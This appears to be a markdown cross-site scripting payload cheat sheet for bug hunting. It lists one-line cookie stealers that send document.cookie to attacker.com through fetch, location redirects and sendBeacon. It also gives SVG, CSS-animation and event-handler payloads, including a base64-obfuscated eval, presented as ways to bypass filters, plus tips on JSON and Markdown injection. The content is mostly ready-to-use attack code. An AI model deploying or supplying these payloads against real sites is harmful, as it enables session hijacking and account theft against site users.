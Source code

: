 ## Unique & Specialized Payloads

### One-Line Cookie Stealers
```javascript
<script>fetch('https://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>
<img src=x onerror="location='https://attacker.com/log?c='+encodeURIComponent(document.cookie)">
<script>navigator.sendBeacon('https://attacker.com/log',document.cookie)</script>
```
*Why it works: Multiple methods to exfiltrate cookies adapt to different filter scenarios.*

### SVG-Based Advanced Payloads
```javascript
<svg><animate xlink:href=#x attributeName=href values=javascript:alert(document.domain) /><a id=x><text x=20 y=20>Click me</text></a>
<svg><set attributeName=onload value=alert(document.domain) />
<svg><script>/&/-alert(document.domain)</script>
```
*Why it works: SVG offers numerous obscure ways to execute JavaScript that bypass many filters.*

### CSS-Based XSS
```javascript
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationstart="alert(document.domain)"></xss>
<style>*{background-image:url('javascript:alert(document.domain)')}</style>
<xss id=x tabindex=1 style="outline-offset:-5px;"></xss><script>document.getElementById('x').focus()</script>
```
*Why it works: CSS animations and properties can trigger JavaScript execution in specific contexts.*

### Event Handler Chaining
```javascript
<body/onload=eval(location.hash.slice(1))>#alert(document.domain)
<img src=x onerror="eval(atob(this.id))" id="YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==">
<iframe src="data:text/html,<script>parent.alert(document.domain)</script>"></iframe>
```
*Why it works: Chains multiple techniques to create payloads that are harder to detect and filter.*

## Context-Specific Examples for Real-World Hunting

### JSON Response with Wrong Content Type
```javascript
// If server returns JSON with Content-Type: text/html
{"data":"<img src=x onerror=alert(document.domain)>"}
```
*Pro tip: APIs with incorrect content types are goldmines for XSS.*

### Markdown Injection
```markdown
[Click me](javascript:alert(document.domain))
![Image](onerror=alert(document.domain)/)
```
*Pro tip: Many Markdown implementations inadequately sanitize user content.*
